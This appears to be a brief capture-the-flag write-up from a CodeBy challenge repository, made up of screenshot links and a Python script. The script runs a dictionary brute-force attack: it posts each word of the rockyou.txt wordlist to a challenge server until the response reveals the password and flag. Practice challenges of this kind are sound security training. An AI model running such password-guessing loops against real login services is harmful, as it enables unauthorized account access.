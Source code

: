 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e92d3201-5c99-4361-9c12-c17059afc980)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f3f8d60c-dbd2-49bb-822d-63353680c7a9)

Python:
```
import requests

with open("rockyou.txt", mode="r") as file:
    words = file.read().split()  # Разделить на список слов
    for word in words:
        key = {"word": word}
        r = requests.post("http://62.173.140.174:13000/", data=key)
        if "CODEBY" in r.text:
            print(f'Password: {word}')
            print(f'Flag: {r.text[595:618]}')
            break
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e6aa687e-a06f-41ca-a4ed-e35fc2fee9a7)
